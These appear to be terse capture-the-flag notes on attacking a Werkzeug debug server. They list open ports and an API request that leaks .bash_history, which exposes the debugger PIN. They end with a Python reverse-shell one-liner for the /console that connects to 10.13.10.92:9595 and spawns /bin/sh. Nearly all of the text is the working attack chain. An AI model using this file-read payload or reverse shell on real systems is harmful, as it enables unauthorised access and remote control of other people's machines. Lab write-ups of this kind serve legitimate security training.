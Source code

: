 # Ports
22      SSH </br>
890     HTTP </br>
5000    Werkzeug *VULNERABLE* </br>

# API
http://<IP>:5000/api/v1/resources/books 

# Payload
http://<IP>:5000/api/v1/resources/books?show=.bash_history
```bash
cd /home/sid 
whoami 
export WERKZEUG_DEBUG_PIN=123-321-135 
echo $WERKZEUG_DEBUG_PIN 
python3 /home/sid/api.py 
ls 
exit
```

# Reverse using "/console"
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.10.92",9595));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
